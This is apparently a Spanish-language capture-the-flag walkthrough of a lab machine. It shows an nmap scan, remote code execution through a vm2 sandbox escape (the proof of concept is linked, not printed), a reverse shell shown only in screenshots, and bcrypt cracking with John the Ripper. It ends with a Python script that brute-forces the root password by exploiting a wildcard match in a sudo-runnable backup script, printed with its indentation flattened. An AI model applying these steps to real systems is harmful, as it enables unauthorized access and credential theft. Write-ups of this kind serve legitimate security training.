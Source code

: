 

# PortScan

```
nmap -p- --open -vvv --min-rate 5000 -Pn -n 10.10.11.239
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-08 12:23 AST
Initiating SYN Stealth Scan at 12:23
Scanning 10.10.11.239 [65535 ports]
Discovered open port 80/tcp on 10.10.11.239
Discovered open port 22/tcp on 10.10.11.239
Discovered open port 3000/tcp on 10.10.11.239
Completed SYN Stealth Scan at 12:23, 13.36s elapsed (65535 total ports)
Nmap scan report for 10.10.11.239
Host is up, received user-set (0.054s latency).
Scanned at 2023-11-08 12:23:17 AST for 13s
Not shown: 65520 closed tcp ports (reset), 12 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
3000/tcp open  ppp     syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.50 seconds
           Raw packets sent: 67086 (2.952MB) | Rcvd: 65581 (2.623MB)
```


# Sitio Web

![[Pasted image 20231108122352.png]]

Sí leemos, vemos qué es un sitio web para probar código en Node.js, lo primero qué se me ocurre es probar código malicioso JavaScript, pero seguimos indagando un poco en la página, hasta que en la parte izquierda vemos una opción de "**About US**", clickeó allí para ver sí dan algún tipo de información.

![[Pasted image 20231108122528.png]]

Como vemos nos dice qué está usando una librería **"vm2"**, para evitar el JavaScript & qué también tiene una capa de seguridad para evitar código malicioso, lo primero que se me ocurre es buscar en internet posibles **ByPass** para el vm2, así encontrando este recurso:

https://security.snyk.io/vuln/SNYK-JS-VM2-5537100

El recurso nos proporciona un **PoC** para llevar a cabo una **RCE**, lo probamos en el editor de texto del sitio web.

![[Pasted image 20231108122947.png]]

Como vemos estamos llevando a cabo una ejecución Remota de Comandos, por lo qué podemos entablarnos una Reverse Shell de manera fácil.
![[Pasted image 20231108123302.png]]

Nos ponemos en escucha...

![[Pasted image 20231108123251.png]]


Obtendríamos la Reverse Shell y estaríamos dentro de la máquina, tan sólo quedaría darle tratamiento a la TTY, sino sabes, te recomiendo ver este post.[((Click aquí))]()

# Escalada de Privilegios #1 

Sí vemos el **"/etc/passwd"** veríamos que hay un usuario con nombre "**joshua**", así que nos interesaría convertirnos en él, buscando recursos qué podamos leer y aprovecharnos, encontramos en la ruta "**/var/www/conctact**" que dentro contiene una .db.

![[Pasted image 20231108123645.png]]


Como vemos tenemos un hash con lo que parece ser la contraseña, así que usamos la herramienta "**John The Rippe**r" para tratar de hacerle un descrypt.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=bcrypt --show
```

dentro del "hash.txt" pondríamos el hash qué vimos de la .db para brute forcearlo, dándonos al cabo de unos minutos la credencial correspondiente del usuario **Joshua**, por lo qué podríamos convertirnos en él.

![[Pasted image 20231108123956.png]]

# Escalada de Privilegios #2

Sí buscamos por permisos SUDOERS.

![[Pasted image 20231108124112.png]]

Vemos que podemos ejecutar como **Root** el script en Bash "**mysql-backup.sh**", lo ejecutamos para ver como funciona.
![[Pasted image 20231108124236.png]]

Debemos proporcionar la contraseña de **Root**, cuyas credenciales no sabemos, pero como podemos ejecutar el script las veces qué queramos podemos hacer un ataque de fuerza bruta, para ello nos aprovechamos del siguiente script en Python.

```python
import string  
import subprocess  
all = list(string.ascii_letters + string.digits)  
password = ""  
found = False  
  
while not found:  
for character in all:  
command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"  
output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout  
  
if "Password confirmed!" in output:  
password += character  
print(password)  
break  
else:  
found = True
```

Que al ejecutarlo nos reportará la contraseña, y ya podemos convertirnos en ROOT.

![[Pasted image 20231108124612.png]]
